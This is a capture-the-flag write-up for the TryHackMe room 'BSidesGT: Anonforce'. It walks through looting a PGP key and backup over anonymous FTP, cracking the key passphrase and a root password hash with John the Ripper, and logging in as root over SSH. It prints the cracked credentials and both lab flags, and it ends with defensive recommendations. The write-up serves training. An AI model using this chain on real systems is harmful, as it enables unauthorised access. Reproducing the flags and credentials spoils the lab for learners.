

# BSidesGT Anonforce Write-up

## BSidesGT Anonforce Write-up

### Challenge information

| Field    | Value                                                               |
| -------- | ------------------------------------------------------------------- |
| Platform | TryHackMe                                                           |
| Room     | [BSidesGT: Anonforce](https://tryhackme.com/room/bsidesgtanonforce) |
| Target   | `10.112.163.142` _(lab-session value)_                              |
| Scope    | Authorized TryHackMe training environment                           |

### Overview

This write-up records an authorized TryHackMe lab path. Anonymous FTP exposed an OpenPGP private key and encrypted backup. The key passphrase was recovered offline, and the available backup content included password hashes. A supplied root credential then enabled direct SSH access as `root`.

Some transition commands were not recorded. The decryption of `backup.pgp` and root-hash recovery are marked as evidence gaps rather than reconstructed.

### Table of contents

* [Tools used](bsidesgt-anonforce-write-up.md#tools-used)
* [Anonymous FTP enumeration](bsidesgt-anonforce-write-up.md#anonymous-ftp-enumeration)
* [Network service verification](bsidesgt-anonforce-write-up.md#network-service-verification)
* [OpenPGP private-key recovery](bsidesgt-anonforce-write-up.md#openpgp-private-key-recovery)
* [Backup and password-hash analysis](bsidesgt-anonforce-write-up.md#backup-and-password-hash-analysis)
* [Root SSH access](bsidesgt-anonforce-write-up.md#root-ssh-access)
* [Flag retrieval](bsidesgt-anonforce-write-up.md#flag-retrieval)
* [Attack chain](bsidesgt-anonforce-write-up.md#attack-chain)
* [Vulnerability analysis](bsidesgt-anonforce-write-up.md#vulnerability-analysis)
* [Defensive recommendations](bsidesgt-anonforce-write-up.md#defensive-recommendations)
* [Evidence integrity and limitations](bsidesgt-anonforce-write-up.md#evidence-integrity-and-limitations)

### Tools used

* FTP client
* Nmap
* `gpg2john`
* John the Ripper
* SSH
* Linux command-line utilities

### Anonymous FTP enumeration

The investigation began with an FTP connection:

```bash
ftp 10.112.163.142
```

The target identified itself as `vsFTPd 3.0.3` and accepted the `anonymous` account:

```
Connected to 10.112.163.142.
220 (vsFTPd 3.0.3)
Name (10.112.163.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

The FTP listing was rooted at `/`. FTP commands interact with the file-transfer service, not an operating-system shell. Attempts to invoke shell utilities confirmed this boundary:

```
ftp> id
550 Permission denied.
ftp> whoami
?Invalid command.
```

#### Downloadable OpenPGP material

The `/notread` directory was accessible and contained two sensitive artifacts:

```
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||8655|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
```

Both files were downloaded:

```
ftp> get backup.pgp
local: backup.pgp remote: backup.pgp
...
226 Transfer complete.

ftp> get private.asc
local: private.asc remote: private.asc
...
226 Transfer complete.
```

The exposed pair was significant: `private.asc` is an OpenPGP private-key export, while `backup.pgp` is encrypted data. An attacker who obtains both can attempt offline recovery of the private-key passphrase.

The FTP session also identified the local account directory:

```
ftp> ls /home
229 Entering Extended Passive Mode (|||55347|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
```

### Network service verification

A detailed scan was recorded during the investigation:

```bash
nmap -A 10.112.163.142
```

Relevant output:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   FTP server status:
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

The scan corroborated the observed path:

* **FTP/21** accepted anonymous authentication. Nmap also reported `/notread` as writable.
* **SSH/22** was available for password authentication.

The record places FTP enumeration before this captured Nmap output. This scan validates the services, but is not presented as the initial discovery event.

### OpenPGP private-key recovery

The downloaded private key was converted into a John-compatible hash:

```bash
gpg2john private.asc > hash
```

`gpg2john` extracts material needed to test an OpenPGP key passphrase offline. John cannot use the exported secret-key file as an ordinary password hash without this conversion.

A RockYou wordlist attack recovered the passphrase:

```bash
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Observed output:

```
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)
1g 0:00:00:00 DONE (2026-10-24 12:08) 25.00g/s 23300p/s 23300c/s 23300C/s xbox360..madalina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The recovered OpenPGP key passphrase was:

```
xbox360
```

This value protects the private key. It is not, by itself, evidence of a Linux account password.

### Backup and password-hash analysis

The local directory later contained `backup.txt` alongside the downloaded artifacts:

```
backup.pgp  backup.txt  hash  private.asc
```

The recorded `backup.txt` content included password-hash entries for `root` and `melodias`:

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
...
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

The root entry has a `$6$` prefix, identifying SHA-512 crypt. The `melodias` entry has a `$1$` prefix, identifying MD5 crypt.


The recorded notes do not include the commands used to import `private.asc` or decrypt `backup.pgp` into `backup.txt`. The artifacts strongly suggest that relationship, but the exact decryption sequence requires verification and is not recreated here.


#### Attempted `melodias` hash recovery

The `melodias` entry was isolated and tested against RockYou:

```bash
echo 'melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1' > shadow.txt
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

The file was later changed to contain only the hash, then tested again:

```bash
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
john --show --format=md5crypt shadow.txt
```

The captured final result was:

```
0 password hashes cracked, 1 left
```

No `melodias` password was recovered in the supplied evidence. This account was not used for access.

#### Root credential

The notes supply this root hash-to-password result:

```
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari
```

This identifies `hikari` as the root credential used in the lab. The cracking command and John output that produced it were not recorded. The SSH session below independently verifies that this supplied password worked against the lab target.

### Root SSH access

SSH authentication as `root` succeeded:

```bash
ssh root@10.112.163.142
```

Relevant output:

```
root@10.112.163.142's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)
...
root@ubuntu:~# ls
root.txt
```

This was direct privileged access, not a local privilege-escalation technique. Password-based root SSH access increases the impact of a leaked or cracked root hash.

### Flag retrieval

The root flag was read from the root home directory:

```bash
cat root.txt
```

```
f706456440c7af4187810c31c6cebdce
```

The user flag was retrieved during the root session:

```bash
cat /home/melodias/user.txt
```

```
606083fd33beb1284fc51f411a706af8
```

These values were observed during the completed TryHackMe lab session.

### Attack chain



### Vulnerability analysis

#### Anonymous FTP exposure

Anonymous FTP access exposed a writable directory containing an encrypted backup and its private decryption key. This created an offline credential-recovery opportunity.

#### Weak OpenPGP key passphrase

The OpenPGP passphrase `xbox360` was recovered from RockYou. Encryption cannot compensate for predictable passphrases protecting private keys.

#### Sensitive backup contents

The recovered backup content included password hashes. Hashes are sensitive authentication data because attackers can guess passwords offline without rate limits.

#### Direct root SSH login

The supplied root credential authenticated directly over SSH. This made a single compromised password sufficient for complete system access.

### Defensive recommendations

1. Disable anonymous FTP unless it is strictly required.
2. Restrict anonymous services to a dedicated non-sensitive directory.
3. Remove anonymous write access from FTP directories.
4. Prefer SFTP or FTPS over plaintext FTP.
5. Use long, unique private-key passphrases that resist wordlist attacks.
6. Store encrypted backups separately from private decryption keys.
7. Treat password hashes as secrets and protect backup access.
8. Disable direct root SSH login with `PermitRootLogin no`.
9. Use named administrator accounts, least-privilege `sudo`, and strong authentication controls.

### Evidence integrity and limitations

* Commands and output come from the recorded authorized lab session.
* The target IP is a temporary lab-session value.
* Commands used to decrypt `backup.pgp` into `backup.txt` were not supplied.
* The root password `hikari` was supplied with its hash, but its recovery command was not recorded.
* The recorded RockYou attempt against the `melodias` hash did not recover a password.
* FTP was not treated as shell access; the captured command behavior showed that distinction.

### Final summary

The path combined several credential-exposure failures. Anonymous FTP exposed an OpenPGP private key and encrypted backup. The private key used a weak passphrase, and the available backup content included password hashes. A supplied root credential then enabled direct root SSH access. Sensitive backups and keys must never be exposed through public file-transfer services or paired with direct root remote login.
